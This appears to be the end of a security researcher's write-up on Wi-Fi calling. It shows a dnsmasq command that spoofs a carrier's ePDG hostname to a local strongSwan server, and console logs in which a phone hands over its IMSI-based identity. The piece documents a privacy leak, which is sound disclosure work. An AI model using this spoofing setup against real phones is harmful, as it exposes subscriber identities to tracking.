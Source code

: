 ```
sudo dnsmasq -d --no-resolv --no-hosts --log-queries --server 8.8.8.8 --address=/epdg.epc.mnc260.mcc310.pub.3gppnetwork.org/192.168.1.10
```

Then I changed the DNS on my phone, activated Wi-Fi calling, and saw this on my console:

```
07[NET] received packet: from 192.168.1.9[40844] to 192.168.1.10[500] (496 bytes)
07[ENC] parsed IKE_SA_INIT request 0 [ SA KE No N(NATD_S_IP) N(NATD_D_IP) N(FRAG_SUP) ]
07[IKE] 192.168.1.9 is initiating an IKE_SA
07[CFG] selected proposal: IKE:AES_CBC_128/AES_XCBC_96/PRF_AES128_XCBC/MODP_2048
07[ENC] generating IKE_SA_INIT response 0 [ SA KE No N(NATD_S_IP) N(NATD_D_IP) N(FRAG_SUP) N(CHDLESS_SUP) N(MULT_AUTH) ]
07[NET] sending packet: from 192.168.1.10[500] to 192.168.1.9[40844] (456 bytes)
08[NET] received packet: from 192.168.1.9[40844] to 192.168.1.10[500] (348 bytes)
08[ENC] unknown attribute type (16386)
08[ENC] parsed IKE_AUTH request 1 [ IDi IDr CPRQ((16386) DNS6 DNS6 ADDR6) SA TSi TSr ]
08[CFG] looking for peer configs matching 192.168.1.10[ims]...192.168.1.9[0310261111111111@nai.epc.mnc260.mcc310.3gppnetwork.org]
08[CFG] no matching peer config found
08[ENC] generating IKE_AUTH response 1 [ N(AUTH_FAILED) ]
08[NET] sending packet: from 192.168.1.10[500] to 192.168.1.9[40844] (76 bytes)
```

And there's my IMSI, sent to any adversary that controls a Wi-Fi network, a DNS, and a VPN server.

# What I learned

- How (not) to send PDUs to a SIM card on Android
- How to ask a SIM card for authentication responses on Android
- How to use SWu-IKEv2
- How to send a SIP register command
- How to setup an IKEv2 StrongSwan server
- How Wi-Fi calling may leak IMSIs to adversarial Wi-Fi hotspots